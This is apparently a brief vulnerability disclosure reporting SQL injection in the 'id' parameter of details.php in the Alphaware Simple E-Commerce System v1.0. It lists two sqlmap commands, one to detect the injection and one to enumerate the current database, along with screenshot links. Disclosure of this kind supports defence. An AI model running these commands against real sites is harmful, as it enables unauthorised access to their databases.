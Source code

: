 # Alphaware - Simple E-Commerce System v1.0 by razormist has SQL injection

BUG_Author: Murasaki

Vulnerability File: /alphaware/details.php

Parameter "id" (GET), exists SQL injection vulnerability

sqlmap detect injection vulnerabilities: "sqlmap -u http://ip/alphaware/details.php?id=1"

sqlmap injection result

![image](https://github.com/1MurasaKi/picture/blob/main/detectInjection.png)

sqlmap Queries the current database: "sqlmap -u http://ip/alphaware/details.php?id=1 --current-db"

sqlmap injection result

![image](https://github.com/1MurasaKi/picture/blob/main/detectInjection.png)
